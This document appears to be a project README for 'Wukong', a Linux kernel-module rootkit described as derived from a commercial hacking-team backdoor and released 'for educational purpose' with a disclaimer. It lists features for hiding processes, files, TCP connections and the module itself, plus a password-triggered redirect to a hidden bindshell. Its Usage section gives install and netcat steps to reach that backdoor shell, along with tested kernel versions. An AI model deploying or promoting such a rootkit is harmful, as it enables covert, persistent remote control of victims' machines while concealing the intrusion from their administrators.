 # Wukong: A LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x<br />
<p>
	&nbsp;&nbsp;&nbsp;&nbsp;The idea of wukong is from a commercial Linux Backdoor software, designed for a hacking team in early 2015 for legal using. Now for educational perpose, I will release an open source version. <strong>Please call me good man:).</strong> 
</p>
<p>
	<strong>&nbsp;&nbsp;&nbsp;&nbsp; If you want to buy me a bottle of beer, please contact me via hanj4096@gmail.com.</strong> 
</p>
<br />
<h2>
	<span style="color:#E53333;">Note:</span> 
</h2>
<span style="color:#E53333;"><strong>&nbsp;&nbsp;&nbsp;&nbsp;This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong></span><br />
<br />
<br />
<br />
<h2>
	Function
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Hide Linux Process.<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Hide TCP connection.<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Hide File/Directory.<br />
&nbsp;&nbsp;&nbsp;&nbsp;4. Hide wukong.ko.<br />
&nbsp;&nbsp;&nbsp;&nbsp;5. Redirect TCP connection to backdoor server by using the specific confidential password.<br />
<br />
<h2>
	Usage
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Environment:<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
&nbsp;&nbsp;&nbsp;&nbsp;(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Test step:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. on server<br />
&nbsp;&nbsp;&nbsp;&nbsp;cd wukong/<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo ./install.pl<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo nc -k -l 80<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. on client<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;http<br />
&nbsp;&nbsp;&nbsp;&nbsp;ifconfig<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS：The connection will be redirected to bindshell<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: a rst will be received.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;aaaaaa<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: The connection will be connected with tcp 80.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Result:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. Bindshell file is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. Tcp 8000 connection is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;c. Bindshell process is hidden<br />
&nbsp;&nbsp;&nbsp; d. wukong.ko is hidden<br />
&nbsp;&nbsp;&nbsp;&nbsp;e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.<br />
<br />
<br />
<h2>
	Tested OS:
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
<br />
<h2>
	ToDo:
</h2>
&nbsp;&nbsp;&nbsp; Do performance tuning, make it can work on Linux server with large traffic.<br />
&nbsp;&nbsp;&nbsp; Adding more features.
